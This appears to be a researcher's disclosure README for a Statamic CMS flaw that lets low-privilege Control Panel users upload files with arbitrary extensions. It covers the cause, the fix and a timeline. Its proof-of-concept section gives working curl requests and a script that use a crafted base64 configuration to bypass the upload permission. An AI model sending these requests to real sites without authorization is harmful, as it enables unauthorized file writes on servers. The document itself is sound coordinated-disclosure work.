


# GHSA-jpc4-w9r8-43j3 — Statamic unauthorized arbitrary-extension file upload

> Affected component: Statamic Control Panel `FilesFieldtypeController::upload()`
>
> Affected versions: Statamic `>= 5.0.0, <= 6.28.0`
>
> Weaknesses: CWE-862 (Missing Authorization), CWE-434 (Unrestricted Upload of File with Dangerous Type)
>
> Suggested severity: Medium — CVSS 3.1 `5.4` (`AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:L`)

## Summary

The Control Panel endpoint `POST /cp/fieldtypes/files/upload` does not enforce the asset-container upload permission. It also builds its extension allowlist from a base64-encoded field configuration supplied by the caller.

Together, these behaviors allow an authenticated Control Panel user with only the `access cp` permission to upload a file with an arbitrary extension, even when the same user is denied by Statamic's normal asset upload endpoint.

This repository documents the demonstrated security impact: **unauthorized file creation and bypass of the server-side extension policy**. It does **not** claim remote code execution. In the default configuration tested, staged files were stored below `storage/app/private/statamic/file-uploads/` and were not directly executable over HTTP.

## Vendor notification

The issue was reported privately to the Statamic maintainers through GitHub Private Vulnerability Reporting on **2026-08-24** as [`GHSA-jpc4-w9r8-43j3`](https://github.com/statamic/cms/security/advisories/GHSA-jpc4-w9r8-43j3). The maintainer `jasonvarga` accepted the report on **2026-10-06**. Researcher credit was accepted for [`capivara-research`](https://github.com/capivara-research).

The images below preserve evidence that the vendor was notified and that the private report was accepted.

### Private advisory and reporter credit



### Maintainer acceptance



## Security boundary

Statamic defines `upload {container} assets` as a distinct permission. The ordinary asset upload controller enforces that permission and applies the selected container's validation rules. The vulnerable fieldtype endpoint does neither.

The same low-privilege session produces different results:

```text
POST /cp/assets                     -> 403 This action is unauthorized.
POST /cp/fieldtypes/files/upload    -> 200 File staged successfully.
```

The second endpoint also trusts a caller-provided field configuration such as:

```json
{
  "type": "files",
  "allowed_extensions": ["proof"]
}
```

Because this value replaces the built-in safe extension list, rather than narrowing it, the caller controls which extension is accepted.

## Root cause

The affected controller performs the following operations:

1. Decodes field configuration supplied in the HTTP request.
2. Reads `allowed_extensions` from that untrusted configuration.
3. Uses it as the complete allowlist for `AllowedFile`.
4. Passes the caller-provided container to the uploader.
5. Does not call `authorize()` for the target asset container.

Conceptually, the vulnerable flow is:

```php
$fieldtype = $request->config ? $this->fieldtype($request) : null;

$request->validate([
    'file' => ['file', new AllowedFile($fieldtype?->config('allowed_extensions'))],
]);

$file = $request->file('file');
$path = Uploader::container($request->container)->upload($file);
```

By comparison, Statamic's standard asset upload controller resolves the container, invokes the authorization policy, and applies container validation rules before storing the file.

## Safe proof of concept

Only test systems you own or are explicitly authorized to assess. The included PoC uses a harmless `.proof` text file and does not attempt code execution.

### Prerequisites

- A clean Statamic installation in the affected range.
- A non-superuser Control Panel account with `access cp` only.
- The authenticated session cookie and CSRF token for that test account.
- An existing asset container name, commonly `assets` in a test installation.

### Manual request

Create a harmless marker:

```bash
printf 'GHSA-jpc4-w9r8-43j3 authorized test\n' > marker.proof
```

Encode the attacker-controlled field configuration:

```bash
printf '%s' '{"type":"files","allowed_extensions":["proof"]}' | base64 -w0
```

Send the multipart request to your local test instance:

```bash
curl --fail-with-body \
  -X POST 'http://127.0.0.1:8000/cp/fieldtypes/files/upload' \
  -H 'Accept: application/json' \
  -H 'Cookie: statamic_session=REPLACE_WITH_TEST_SESSION' \
  -F '_token=REPLACE_WITH_TEST_CSRF_TOKEN' \
  -F 'container=assets' \
  -F 'config=eyJ0eXBlIjoiZmlsZXMiLCJhbGxvd2VkX2V4dGVuc2lvbnMiOlsicHJvb2YiXX0=' \
  -F 'file=@marker.proof;type=text/plain'
```

Alternatively:

```bash
./poc/poc.sh \
  'http://127.0.0.1:8000' \
  'statamic_session=REPLACE_WITH_TEST_SESSION' \
  'REPLACE_WITH_TEST_CSRF_TOKEN' \
  'assets'
```

### Expected vulnerable result

The fieldtype endpoint returns HTTP `200` and a JSON object containing the staged file identifier, despite the account lacking the container upload permission.

For a control test, submit the same account's upload through `POST /cp/assets`. That request should return HTTP `403`.

## Verified impact

An authenticated Control Panel user without asset-upload permission can:

- write a staged file to server-side storage;
- select an extension outside Statamic's built-in safe list;
- bypass the target container's validation rules;
- select a container without the authorization check used by the standard asset endpoint.

The demonstrated impact is integrity and limited availability risk. Deployment-specific configurations that expose or later promote staged files may increase the impact, but those conditions are outside the verified default-installation result.

## Recommended remediation

1. Resolve the requested asset container server-side and reject unknown containers.
2. Call the same authorization policy used by `AssetsController::store()`.
3. Apply the selected container's validation rules.
4. Treat browser-supplied field configuration as untrusted.
5. Allow client-provided extensions to narrow the server allowlist, never expand or replace it.
6. Add regression tests covering a user with `access cp` but without `upload {container} assets`.

An extension restriction should follow this model:

```php
$safe = array_merge(
    AllowedFile::EXTENSIONS,
    config('statamic.assets.additional_uploadable_extensions', [])
);

$extensions = $requested === null
    ? $safe
    : array_intersect($requested, $safe);
```

## Timeline

| Date | Event |
|---|---|
| 2026-08-24 | Vulnerability privately reported through GitHub PVR |
| 2026-10-06 | Statamic maintainer accepted the report |
| 2026-10-15 | Researcher credit accepted |
| 2026-10-24 | Public technical documentation prepared |

## References

- [Private GitHub advisory — accessible to advisory collaborators](https://github.com/statamic/cms/security/advisories/GHSA-jpc4-w9r8-43j3)
- [Statamic CMS repository](https://github.com/statamic/cms)
- [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

## Researcher

Reported by [Fernando Viana / capivara-research](https://github.com/capivara-research).

## Legal and ethical use

This material is provided for defensive validation, remediation and vulnerability coordination. Test only systems you own or have explicit permission to assess.
